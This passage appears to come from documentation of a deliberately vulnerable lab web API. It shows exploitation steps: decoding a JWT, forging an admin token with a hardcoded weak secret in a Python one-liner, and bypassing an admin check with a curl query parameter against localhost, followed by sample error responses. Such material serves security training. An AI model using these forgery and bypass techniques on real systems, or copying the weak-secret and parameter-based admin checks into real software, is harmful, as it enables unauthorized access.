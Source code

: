 **Exploitation:**
```bash
# Decode JWT payload
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyX2lkIjoxMDU3LCJ1c2VybmFtZSI6ImFkbWluIiwicm9sZSI6ImFkbWluIiwiZXhwIjoxNzU3MzEyMTU2LCJpYXQiOjE3NTcyMjU3NTZ9.wovLNQRod8RKf4DAdgNdTXXNKMrtovGwyyypQcsWDAk" | cut -d'.' -f2 | base64 -d

# Forge new token with known secret
python3 -c "
import jwt
payload = {'user_id': 1057, 'username': 'admin', 'role': 'admin'}
token = jwt.encode(payload, 'weak_secret_key_2024', algorithm='HS256')
print(token)
"
```

### 4. Authorization Bypass

**Method**: URL parameter manipulation  
**Impact**: Admin panel access

**Exploitation:**
```bash
# Bypass admin check
curl "http://localhost:5000/admin/users?admin=true"
```

## Error Responses

### Authentication Errors

```json
{
  "error": "Invalid or missing JWT token"
}
```

### Validation Errors

```json
{
  "error": "All fields are required"
}
```

### Authorization Errors

```json
{
  "error": "Access denied - Admin privileges required"
}
```

### Not Found Errors
